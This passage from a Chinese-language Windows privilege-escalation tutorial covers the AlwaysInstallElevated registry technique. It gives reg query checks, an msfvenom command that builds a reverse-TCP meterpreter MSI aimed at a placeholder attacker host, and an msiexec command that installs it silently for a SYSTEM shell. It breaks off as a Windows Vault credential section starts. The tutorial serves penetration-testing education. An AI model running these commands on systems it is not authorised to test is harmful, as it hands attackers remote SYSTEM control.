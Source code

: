5. 获取到 system 权限的 shell

![](https://image.3001.net/images/20210205/1612509000_601cef48b7faba453bb36.gif!small)

注册表键提权
------

### 漏洞介绍

AlwaysInstallElevated 是一项功能，可为 Windows 计算机上的所有用户（尤其是低特权用户）提供运行任何具有高权限的 MSI 文件的功能。MSI 是基于 Microsoft 的安装程序软件包文件格式，用于安装，存储和删除程序。

通过组策略中的 windows installer 来进行配置，默认情况下该配置是关闭的。

### 漏洞复现

1. 首先需要检查计算机是否开启了该配置，也可以通过执行 powerup.ps1 来检查权限。

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated


```

![](https://image.3001.net/images/20210205/1612509013_601cef557ff8109fb7756.gif!small)

2. 使用 msfvenom 生成一个 msi 文件用来反弹 shell。

```
Msfvenom -p windows/meterpreter/reverse_tcp lhost=X.X.X.X lport=4567 -f msi > 1.msi


```

![](https://image.3001.net/images/20210205/1612509033_601cef69af6295aa70a98.jpg!small)

3. 安装 msi，获取反弹 shell

```
msiexec /quiet /qn /i C:\Windows\Temp\1.msi


```

![](https://image.3001.net/images/20210205/1612509045_601cef750523996e64de9.gif!small)

凭证存储
----

### 漏洞介绍

Windows7 之后的操作系统提供了 windows 保险柜功能 (Windows Vault),Window 保险柜存储 Windows 可以自动登录用户的凭据，这意味着**需要凭据才能访问资源**（服务器或网站）的任何 **Windows 应用程序都可以使用此凭据管理器**和 Windows Vault 并使用提供的凭据代替用户一直输入用户名和密码。
